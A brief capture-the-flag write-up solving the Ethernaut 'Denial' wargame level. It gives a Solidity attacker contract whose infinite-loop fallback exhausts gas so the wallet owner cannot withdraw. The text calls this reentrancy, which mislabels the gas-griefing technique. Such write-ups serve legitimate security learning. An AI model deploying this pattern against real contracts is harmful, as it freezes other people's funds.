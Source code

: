# Ethernaut Level 20: Denial

https://ethernaut.openzeppelin.com/level/20

```
This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.
```


## Solution

This is lassic reentrancy attack. 
Founds are sent to `partner` before are sent to `owner`. If we manage to execute rentrancy attack on each funds that are sent `owner` will not be able to withdraw any money.  

```
contract ExploitContract {
    Denial denial;

    constructor(address payable _denial) {
        denial = Denial(_denial);
        denial.setWithdrawPartner(address(this));
    }

    fallback() external payable {
        while (true) {}
    }

    function exploit() public {
        denial.withdraw();
    }
}
```